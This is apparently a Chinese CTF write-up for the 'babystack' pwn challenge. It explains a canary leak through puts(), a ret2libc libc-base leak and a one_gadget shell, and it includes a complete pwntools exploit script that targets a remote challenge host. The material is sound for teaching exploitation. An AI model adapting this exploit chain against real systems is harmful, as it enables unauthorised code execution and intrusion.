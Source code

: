 #pwn400
##分析
![](https://i.imgur.com/A96PIT2.png)  
这道题主要的障碍就是开启了栈保护，不能随意进行栈溢出，所以我们首先需要绕过金丝雀的限制。  

经过查看，这个程序有两个输入点①输入选项数，②store选项中输入字符串s。  
这里利用了输出字符串s的过程，将canary泄露出来
####条件基础：  
①canary为防止泄露，第一位已知为'\x00'  
②puts()函数输出时，遇到'\x00'才停止，即使字符串中存在'\n',也会继续输出  
③read函数在读取长度限制内，能够把'\n'也读进字符串中

##解题思路
主函数的栈结构如图所示
 ![](https://i.imgur.com/x1TVvBT.png)  
所以可以通过将s填充满，使puts(s)时将canary泄露出来。  
另外一个问题是，虽然程序本身没有开启随机地址，但是其链接库开启了PIE保护，所以我们需要两次溢出：先获得函数地址在libc库中的偏移，进而得到需要函数在内存中的真实地址，然后在溢出执行system函数获取shell。  

##Exp
    #!/usr/bin/env python
    # -*- coding: utf-8 -*-
    __Auther__ = 'M4x'
    
    from pwn import * 
    import sys
    from time import sleep
    context.log_level = "debug"
    # context.terminal = ["deepin-terminal", "-x", "sh", "-c"]
    
    def debug():
        addr = int(raw_input("DEBUG: "), 16)
        gdb.attach(io, "b *" + str(addr))
    
    if sys.argv[1] == "l":
        io = process("./babystack")
        elf = ELF("./babystack")
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
        exe_addr = 0x3f2d6
    else:
        io = remote("1c6a6fb.isec.anscen.cn", 1234)
        elf = ELF("./babystack")
        libc = ELF("./libc-2.23.so")
        exe_addr = 0x45216
    
    def getCanary():
        io.sendlineafter(">> ", "1")
        payload = cyclic(0x88)
        #  debug()
        io.sendline(payload)
        io.sendlineafter(">> ", "2")
        sleep(1)
        io.recvuntil("\n")
        sleep(1)
        canary = u64("\x00" + io.recv(7))
        #  print hex(canary)
        log.debug("leaked canary -> 0x%x" % canary)
        return canary
    
    def getBase(canary):
        read_got = elf.got["read"]
        read_plt = elf.plt["read"]
        puts_plt = elf.plt["puts"]
        #  start_plt = elf.symbols["start"]
        #  start_plt = 0x400720
        start_plt = 0x400908
        pop_rdi_ret = 0x0000000000400a93
        pop_rsi_r15_ret = 0x0000000000400a91
        io.sendlineafter(">> ", "1")
        #  log.info("------------------")
        payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt) + p64(start_plt)
        #  print len(payload)
        io.sendline(payload)
        io.sendlineafter(">> ", "3")
        #  debug()
        #  log.info("------------------")
        sleep(1)
        read_leaked = u64(io.recv(6).ljust(8, '\x00'))
        log.debug("read_leaked -> 0x%x" % read_leaked)
        read_libc = libc.symbols["read"]
        libc_base = read_leaked - read_libc
        log.debug("leaked libcBase -> 0x%x" % libc_base)
        return libc_base
    
    def getShell(canary, libcBase):
        io.sendlineafter(">> ", "1")
        exeAddr = libcBase + exe_addr
        payload = cyclic(0x88) + p64(canary) * 2 + p64(exeAddr)
        io.sendline(payload)
        #  debug()
        io.sendlineafter(">> ", "3")
    
        io.interactive()
        io.close()
    
    if __name__ == "__main__":
        canary = getCanary()
        libcBase = getBase(canary)
        canary = getCanary()
        getShell(canary, libcBase)

脚本相比之前写过的略长，简单解释一下  
脚本分为获取canary；获得链接库地址偏移；获取shell三个部分，结构比较清晰。  
先发送0x88长度的字符串+'\n'，read函数会读进0x89个字节，并将canary第一个字节覆盖，之后puts便能将canary泄露出来。  
泄露链接库地址基址时，只需将canary的位置使用上一步中泄露出来的canary进行覆盖，获取链接库地址偏移和寄存器利用，详见<a href = "http://www.cnblogs.com/ZHijack/p/7900736.html" target = blank>ret2libc尝试</a>和<a href = "http://www.cnblogs.com/ZHijack/p/7940686.html" target = blank>64位简单栈溢出</a>。最后返回start函数，重新执行。  
重新执行函数后，需重新泄露canary，然后进行溢出，即可获得shell。
此处的exeaddr不同于以往ROPgadget找到"/bin/sh"和system函数的地址，是用onegadget直接找到execve("/bin/sh", rsp+0x30, environ)的地址，所以只需跳转到此地址即可获得shell。

![](https://i.imgur.com/2Gj0xZ9.png)

但one_gadget不能保证需要限制寄存器的值,不能保证每次都有效,本题使用one_gadget而不是比较保险的system("/bin/sh")是因为输入长度有限,只能构造很短的ropchain.

除此之外,如果one_gadget失效,还可以试一下另一种方法[stack pivot](https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/others.html#stack-privot)

